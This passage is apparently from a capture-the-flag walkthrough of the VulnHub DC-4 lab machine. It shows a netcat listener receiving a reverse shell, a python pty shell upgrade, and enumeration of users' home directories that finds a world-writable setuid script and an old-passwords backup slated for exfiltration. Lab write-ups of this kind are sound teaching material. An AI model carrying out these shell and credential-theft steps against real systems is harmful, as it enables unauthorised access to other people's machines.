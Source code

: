 ```
root@kali:~/Security/Vulnhub/DC-Series/4# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.10.6] from (UNKNOWN) [10.10.10.9] 40722
whoami
www-data
python -c 'import pty; pty.spawn("/bin/sh")' # spawn a TTY shell
$ export TERM=xterm
export TERM=xterm
$ uname -a && uname -m
uname -a && uname -m
Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686 GNU/Linux
i686
```
We're in--now to escalate.
## Escalating Privileges
```
$ ls /home
ls /home
charles  jim  sam
$ ls -a /home/* -r
ls -a /home/* -r
/home/sam:
.profile  .bashrc  .bash_logout  ..  .

/home/jim:
test.sh  mbox  backups	.profile  .bashrc  .bash_logout  ..  .

/home/charles:
.profile  .bashrc  .bash_logout  ..  .
```
User `jim` looks most promising.
```
$ cd jim
cd jim
$ ls -la test.sh
ls -la test.sh
-rwsrwxrwx 1 jim jim 174 Apr  6  2019 test.sh
$ cat test.sh
cat test.sh
#!/bin/bash
for i in {1..5}
do
 sleep 1
 echo "Learn bash they said."
 sleep 1
 echo "Bash is good they said."
done
 echo "But I'd rather bash my head against a brick wall."
$ ls -a backups
ls -a backups
.  ..  old-passwords.bak
$ file mbox
file mbox
mbox: regular file, no read permission
```
The script looks promising but so do the list of old passwords. Let's exfiltrate them and try to SSH into the box as `jim`.
